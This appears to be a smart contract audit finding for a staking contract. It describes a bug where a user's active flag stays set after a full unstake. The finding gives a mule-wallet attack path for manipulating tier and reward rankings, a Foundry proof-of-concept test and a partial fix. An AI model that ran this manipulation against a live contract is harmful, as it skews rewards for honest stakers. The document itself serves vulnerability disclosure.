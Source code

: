 Happy Shadow Python

High

# Inactive User State Tracking

### Summary

In the _stake function, user.isActive is set to true when a user first stakes, but it's never set back to false when they fully unstake. This creates a permanent record of user activity that can be exploited.


### Root Cause

// In _stake function
https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L691-L697

// In _unstake function (from earlier code)
https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L740-L749




### Internal Pre-conditions

Multiple Wallets: Attacker must control multiple addresses with sufficient tokens to meet minStakeAmount and enough ETH for gas fees

### External Pre-conditions

None

### Attack Path

1. Attacker creates multiple wallets (mule accounts)
2. For each wallet:
      * Stake tokens
      * Unstake all tokens
       * `isActive` remains true even after full unstake
6. Later, attacker can:

    - Use these "active" accounts to stake below minimum amount
    - These accounts will be marked as outOfTree but still count as active users
    - This affects the tier calculations and rankings

### Impact

#### Tier Manipulation:

- Attacker can artificially inflate the number of active users
- This affects the tier boundaries and APY calculations
- Other users might get incorrect tier assignments

#### Ranking Manipulation:

- The stakerCountInTree and stakerCountOutOfTree counts become inaccurate
- This affects the _computeTierByRank function's calculations
- Attacker can manipulate the tier distribution




### PoC

```solidity
function test_ActiveStateManipulation() public {
    address attacker = makeAddr("attacker");
    address mule1 = makeAddr("mule1");
    address mule2 = makeAddr("mule2");
    
    // Fund mule accounts
    token.mint(mule1, MIN_STAKE);
    token.mint(mule2, MIN_STAKE);
    
    // Mule 1: Stake and unstake
    vm.startPrank(mule1);
    token.approve(address(staking), MIN_STAKE);
    staking.stake(MIN_STAKE);
    staking.unstake(MIN_STAKE);
    vm.warp(block.timestamp + 7 days + 1);
    staking.completeUnstake(0);
    vm.stopPrank();
    
    // Mule 2: Stake and unstake
    vm.startPrank(mule2);
    token.approve(address(staking), MIN_STAKE);
    staking.stake(MIN_STAKE);
    staking.unstake(MIN_STAKE);
    vm.warp(block.timestamp + 7 days + 1);
    staking.completeUnstake(0);
    vm.stopPrank();
    
    // Verify isActive remains true
    (,,,,,,, bool isActive1,) = staking.users(mule1);
    (,,,,,,, bool isActive2,) = staking.users(mule2);
    assertTrue(isActive1, "Mule1 should still be active");
    assertTrue(isActive2, "Mule2 should still be active");
    
    // Now stake below minimum in both accounts
    vm.startPrank(mule1);
    token.approve(address(staking), MIN_STAKE/2);
    staking.stake(MIN_STAKE/2);
    vm.stopPrank();
    
    vm.startPrank(mule2);
    token.approve(address(staking), MIN_STAKE/2);
    staking.stake(MIN_STAKE/2);
    vm.stopPrank();
    
    // Verify both are out of tree
    (,,,,,, bool outOfTree1,,) = staking.users(mule1);
    (,,,,,, bool outOfTree2,,) = staking.users(mule2);
    assertTrue(outOfTree1, "Mule1 should be out of tree");
    assertTrue(outOfTree2, "Mule2 should be out of tree");
}
```

### Mitigation

#### Reset Active State:

```solidity
function _unstake(uint256 amount, address userAddr) internal {
    UserInfo storage user = users[userAddr];
    require(user.balance >= amount, "Insufficient balance");
    
    _updateInterest(userAddr);
    
    user.balance -= amount;
    user.lastClaimTime = block.timestamp;
    totalStaked -= amount;
    
    // Reset active state if fully unstaked
    if (user.balance == 0) {
        user.isActive = false;
//existing code
```